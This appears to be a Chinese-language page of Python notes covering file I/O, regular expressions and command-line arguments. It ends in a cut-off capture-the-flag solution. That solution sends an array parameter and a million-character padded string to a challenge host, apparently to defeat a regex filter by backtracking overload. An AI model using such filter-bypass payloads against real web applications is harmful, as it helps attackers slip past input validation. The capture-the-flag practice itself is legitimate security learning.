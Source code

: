 ```
# 写入文件
with open('file.txt', 'w') as file:
    file.write('Hello, world!')

# 追加写入文件
with open('file.txt', 'a') as file:
    file.write('Hello again!')

# 逐行读取文件
with open('file.txt', 'r') as file:
    for line in file:
        print(line)

# 读取二进制文件
with open('image.jpg', 'rb') as file:
    content = file.read()

# 写入二进制文件
with open('image.jpg', 'wb') as file:
    file.write(content)

```
### python正则匹配
```
import re

# 定义一个字符串
text = 'hello 123 world'

# 定义一个正则表达式，匹配字符串中的数字
pattern = r'\d+'

# 使用re模块的findall函数，查找所有匹配的内容
matches = re.findall(pattern, text)

# 输出所有匹配的内容
print(matches)
```
### 外部传参
```
import sys

# 获取外部传递的参数
args = sys.argv

# 打印所有参数
for arg in args:
    print(arg)

```
### 脏数据绕过正则
```
import requests 

url = "http://112.6.51.212:32736/"
get_params = {
    "num[]":1
        }

result ='a'*1000000+'2023SHCTF'
post_params = {
    "c_ode":result
```